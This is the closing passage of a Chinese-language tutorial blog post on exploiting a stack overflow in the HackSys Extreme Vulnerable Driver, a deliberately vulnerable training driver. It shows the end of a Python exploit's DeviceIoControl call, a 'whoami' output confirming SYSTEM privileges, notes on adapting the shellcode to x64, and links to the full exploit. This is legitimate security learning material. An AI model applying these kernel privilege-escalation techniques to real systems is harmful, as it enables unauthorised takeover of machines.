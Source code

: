 ```PYTHON
    lpOverlapped = None
    
    pwnd = DeviceIoControl(hDevice,             # _In_        HANDLE
                           dwIoControlCode,     # _In_        DWORD
                           lpInBuffer,          # _In_opt_    LPVOID
                           nInBufferSize,       # _In_        DWORD
                           lpOutBuffer,         # _Out_opt_   LPVOID
                           nOutBufferSize,      # _In_        DWORD
                           lpBytesReturned,     # _Out_opt_   LPDWORD
                           lpOverlapped)        # _Inout_opt_ LPOVERLAPPED
    if not pwnd:
        print "\t[-]Error: Not pwnd :(\n" + FormatError()
        sys.exit(-1)
```
最终在cmd中执行命令`whoami`可以看到已经是`system`用户。
```C
C:\Users\raycp\Desktop\hevd>whoami
nt authority\system
```

### x64平台
x64平台编译出来后，二者相差不大，要改变的主要是三个地方，一个是溢出字符串偏移有所改变，这个具体使用IDA查看就好。一个是shellcode结构体一开始寻找使用的是`gs:[0]`而不是`fs:[0]`这个在前面提过，shellcode的原理是一致的。最后一个是shellcode一开始需要将`rsi`寄存器设置为可读地址的区域，否则后面会报错，原因在于后面使用了`rsi`寄存器来访存。所以一开始要设置。具体可以看最后给的[exp](https://github.com/ray-cp/windows-kernel-exploit/tree/master/HEVD/StackOverflow)。
### 小结
刚开始调试内核，不懂得东西好多，还有很多的东西要学。脚踏实地，仰望星空。

### 链接
1. [HackSys Extreme Vulnerable Driver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)
2. [Kernel Hacking With HEVD Part 1 - The Setup](https://sizzop.github.io/2016/07/05/kernel-hacking-with-hevd-part-1.html)
3. [Windows Kernel Exploitation: Stack Overflow](https://osandamalith.com/2017/04/05/windows-kernel-exploitation-stack-overflow/)
4. [x64 Kernel Privilege Escalation](http://mcdermottcybersecurity.com/articles/x64-kernel-privilege-escalation)